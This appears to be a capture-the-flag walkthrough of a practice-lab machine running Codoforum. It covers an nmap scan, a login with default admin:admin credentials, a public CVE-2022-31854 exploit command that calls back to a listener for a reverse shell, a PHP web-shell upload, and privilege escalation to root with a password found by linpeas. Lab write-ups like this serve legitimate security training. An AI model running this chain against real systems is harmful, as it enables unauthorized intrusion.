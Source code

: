 # **Codo** | PG Practice

***
## Part 2 of Mid Year CTF machines

## Released on: Jun 16, 2023
## Walkthrough: Yes

***

Running our nmap scan we have

```
# Nmap 7.94SVN scan initiated Mon Feb 26 18:58:16 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.153.23
Nmap scan report for 192.168.153.23
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
Bug in http-generator: no string output.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: All topics | CODOLOGIC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 26 19:00:58 2024 -- 1 IP address (1 host up) scanned in 162.31 seconds
```

Navigating to port 80/HTTP we have this **Codoforum** web page



![](https://i.imgur.com/TpzkWA4.png)


However there is an information disclosure of the username on this page know as **admin**


```markdown
Hi,

This is an example post in your codoforum installation.  
You can create/modify/delete all forum categories from the forum backend.

Please edit the forum title and description from the backend.

The only user available to login in the front-end is **admin** with the password that you set during the installation..........
```


trying out default credentials on the logon page, we where able to login as user **admin** with password **admin** also



![](https://i.imgur.com/Lyj7ah1.png)

Navigating to the profile edit section of this page, we are able to upload an image


![](https://i.imgur.com/4rBfd90.png)


However uploading a `shell.php` file we get this error message



![](https://i.imgur.com/phq7Qpp.png)


After several uploads found an exploit for this on `CVE-2022-31854`, which you can download from [here](https://github.com/Vikaran101/CVE-2022-31854)



![](https://i.imgur.com/oC4GpU5.png)


Running the exploit i get a **Connection refused** error, :p, as we can see the connection is made to `/admin/?page=login` endpoint, for some reasons, things are not working

```bash
python3 exploit.py --target-url 'http://192.168.153.23' --username admin --password admin --listener-ip 192.168.45.203 --port 4444 
```


![](https://i.imgur.com/bMEHppK.png)


Decided to run a directory bruteforce attack and found the `/admin` endpoint



![](https://i.imgur.com/mQFsrat.png)


Navigating there same username and password we used earlier worked!! `admin:admin`

![](https://i.imgur.com/5kDHp35.png)


According to the exploit, navigating to this directory, i saw another upload function `/admin/index.php?page=config`


![](https://i.imgur.com/N5orXIP.png)



Uploaded my `shell.php` file and according to the exploit navigated to `/sites/default/assets/img/attachments/shell.php` and truly i got my web shell, haha 🙃



![](https://i.imgur.com/bKCHWht.png)


Then got an actual shell on my listener as user `www-data`

![](https://i.imgur.com/GSer3yN.png)


Running `linpeas.sh` i found a password called `FatPanda123` 



![](https://i.imgur.com/KGSUAha.png)


Fortunately, this password didn't work for the user `offsec` but worked for the the user `root` 😎


![](https://i.imgur.com/CSY22KL.png)

GG


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
